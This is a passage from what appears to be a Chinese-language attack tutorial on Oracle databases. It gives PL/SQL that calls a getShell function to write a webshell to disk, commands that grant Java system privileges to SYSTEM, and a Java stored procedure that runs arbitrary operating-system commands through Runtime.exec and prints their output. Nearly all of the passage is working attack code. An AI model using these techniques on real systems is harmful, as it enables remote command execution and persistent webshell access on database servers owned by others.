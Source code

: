 ```
create or replace procedure RC(p in varChar, c in varChar)
as
x number;
begin
x := getShell(p,c);
end;

```

授予Java权限：

```
variable x number;
set serveroutput on;
exec dbms_java.set_output(100000);
grant javasyspriv to system;
grant javauserpriv to system;

```

写webshell：

```
exec :x:=getShell('d:/3.txt','selina');

```

![enter image description here](http://drops.javaweb.org/uploads/images/55b7bf816e6ac909eebc1205922f226a61ba0c4c.jpg)

##### SQLJ执行cmd命令：

方法这里和上面几乎大同小异，一样的提供一个静态方法，然后去创建一个存储过程。然后调用Java里的方法去执行命令。

创建Java存储过程:

```
create or replace and compile java source named "Execute" as   
import java.io.BufferedReader;
import java.io.InputStreamReader;

public class Execute {
    public static void executeCmd(String c) {
        try {
            String l="",t;
            BufferedReader br = new BufferedReader(new InputStreamReader(java.lang.Runtime.getRuntime().exec(c).getInputStream(),"gbk"));
            while((t=br.readLine())!=null){
                l+=t+"\n";
            }
            System.out.println(l);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}

```
